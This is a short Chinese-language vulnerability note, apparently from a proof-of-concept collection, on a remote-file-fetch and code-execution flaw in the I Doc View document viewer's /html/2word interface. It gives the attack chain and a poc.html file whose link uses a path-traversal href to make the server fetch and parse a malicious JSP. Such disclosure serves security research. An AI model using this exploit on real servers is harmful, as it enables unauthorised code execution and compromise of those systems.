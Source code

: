 
## I Doc View任意文件上传漏洞
I DOC VIEW是一个在线的文档查看器，其中的/html/2word接口因为处理不当，导致可以远程读取任意文件，通过这个接口导致服务器下载恶意的JSP进行解析，从而RCE。

## POC构造
流程：携带恶意link[href]的html -> 远程获取  -> 解析出href -> 远程获取恶意文件

poc.html
```html

<!DOCTYPE html>
<html lang="en">
<head>
    <title>test</title>  
</head>
<body>
  <link href="/..\..\..\docview\poc.jsp">
</body>
</html>
```
然后构造 `..\..\..\docview\poc.jsp`  这个是文件
![image](../../images/736f7c0a-4f06-4170-805a-cf1580b69de3.png)

![image](../../images/73ab1c2a-ad91-40a3-96b0-0ca978fa9abe.png)

## 漏洞分析
```
https://mp.weixin.qq.com/s/lDqhDnZGXoRyp2IolQ2odg
https://mp.weixin.qq.com/s/mD4EcVmJ9QPmmMLh6KrZ0g
```
